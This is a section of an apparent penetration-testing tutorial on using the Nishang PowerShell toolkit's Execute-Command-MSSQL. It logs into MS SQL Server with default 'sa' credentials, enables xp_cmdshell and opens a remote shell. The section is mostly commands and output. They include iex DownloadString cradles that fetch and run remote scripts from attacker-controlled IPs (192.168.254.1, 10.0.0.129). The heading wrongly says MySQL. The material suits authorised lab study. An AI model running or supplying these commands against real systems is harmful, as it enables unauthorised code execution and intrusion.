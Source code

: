 #### 45. Exploitation: Executing Scripts on MySQL

###### Install SQL Server

- [SQL Server 2012 - Installation step by step](https://www.youtube.com/watch?v=4WEFTQ3VJNg)
- [How to install SQL Server 2012 on Windows Server 2012 R2 (VMware workstation 9.0)](https://www.youtube.com/watch?v=A-Nq9YDJPas)

###### Execute-Command-MSSQL

```PowerShell
PS C:\Users\Administrator\Desktop\nishang-master> Import-Module .\nishang.psm1
WARNING: The names of some imported commands from the module 'nishang' include unapproved verbs that might make them less discoverable. To find the commands with unapprov
command again with the Verbose parameter. For a list of approved verbs, type Get-Verb.
WARNING: Some imported command names contain one or more of the following restricted characters: # , ( ) {{ }} [ ] & - / \ $ ^ ; : " ' < > | ? @ ` * % + = ~
PS C:\Users\Administrator\Desktop\nishang-master>
```

```PowerShell
PS C:\Users\Administrator\Desktop\nishang-master> Get-Help Execute-Command-MSSQL -Examples

NAME
    Execute-Command-MSSQL

SYNOPSIS
    Nishang payload which could be used to execute commands remotely on a MS SQL server.

    -------------------------- EXAMPLE 1 --------------------------

    PS>Execute-Command-MSSQL -ComputerName sqlserv01 -UserName sa -Password sa1234







    -------------------------- EXAMPLE 2 --------------------------

    PS>Execute-Command-MSSQL -ComputerName 192.168.1.10 -UserName sa -Password sa1234







    -------------------------- EXAMPLE 3 --------------------------

    PS>Execute-Command-MSSQL -ComputerName target -UserName sa -Password sa1234


    Connecting to target...
    Enabling XP_CMDSHELL...
    Do you want a PowerShell shell (P) or a SQL Shell (S) or a cmd shell (C): P
    Starting PowerShell on the target..
    PS target> iex ((New-Object Net.Webclient).downloadstring(''http://192.168.254.1/Get-Information.ps1''));Get-Information


    Use above to execute scripts on a target.


PS C:\Users\Administrator\Desktop\nishang-master>
```

```PowerShell
PS C:\> iex (New-Object Net.Webclient).DownloadString("http://10.0.0.129:8000/log.txt")
Contents of file
PS C:\>
```

- ```log.txt``` file contents

```
http://10.0.0.129:8000/log.txt
```

```
"Contents of file"
```

- [Reading the contents of a remote file using Powershell](https://stackoverflow.com/questions/1973880/download-url-content)